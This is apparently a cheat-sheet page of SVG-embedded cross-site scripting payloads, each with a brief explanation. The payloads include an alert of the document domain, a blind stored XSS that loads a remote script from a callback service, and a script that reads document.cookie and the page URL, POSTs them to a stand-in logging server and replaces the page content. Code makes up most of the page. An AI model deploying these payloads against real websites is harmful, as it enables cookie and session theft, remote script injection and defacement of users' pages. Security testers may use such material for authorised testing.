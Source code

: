 ```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" >
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.domain);
   </script>
</svg>
```
- When the file is displayed in a browser that supports JavaScript, a pop-up box appears showing the domain name of the website.

---

```html
<svg onload="
    var req = new XMLHttpRequest();     <!-- Send XMLHttpRequest request -->
    req.open('GET', 'https://example.com/admin', false);     <!-- Open this URL -->
    req.setRequestHeader('Upgrade-Insecure-Requests', '1');     <!-- Set Upgrade-Insecure-Requests header -->
    req.setRequestHeader('User-Agent', 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36');     <!-- Set a random User-Agent header -->
    req.send(null);     <!-- Send the request to https://example.com/admin -->
    var headers = req.response.toLowerCase();    <!-- Displaying the response and converting it to lowercase -->
    console.log(headers);     <!-- Print the results -->
" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" id="Layer_1" x="0px" y="0px" viewBox="0 0 100 100" enable-background="new 0 0 100 100" xml:space="preserve" height="100px" width="100px">
    <g>
        <path d="M28.1,36.6c4.6,1.9,12.2,1.6,20.9,1.1c8.9-0.4,19-0.9,28.9,0.9..."/>
        <path d="M70.3,9.8C57.5,3.4,42.8,3.6,30.5,9.5c-3,6-8.4,19.6-5.3,24.9..."/>
    </g>
</svg>
```
- If the URL the request is directed to contains sensitive data, it could result in the disclosure of critical information.

---

```html
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 96 105">
<html>
<head>
<title>PoC</title>
</head>
<body>
<script src="https://js.rip/YOUR-CHANNEL"></script>
</body>
</html>
</svg>
```
- Blind stored XSS.

---

```html
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <script>
    document.addEventListener('DOMContentLoaded', () => {
      alert('Advanced XSS Test Executed!');
      console.log('Cookies:', document.cookie);
      fetch('https://your-test-server.com/log', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ cookies: document.cookie, url: window.location.href })
      });
      document.body.innerHTML = '<h1 style="color: red;">XSS Test Successful!</h1>';
    });
  </script>
</svg>
```
- It is used to send a POST request to the URL https://your-test-server.com/log.
		The following data is sent to the server:
- Cookies: Accessed using document.cookie.
- Current URL: Obtained using window.location.href.
- The entire page content is replaced with a large heading (H1) containing the text "XSS Test Successful!" in red color.
- 
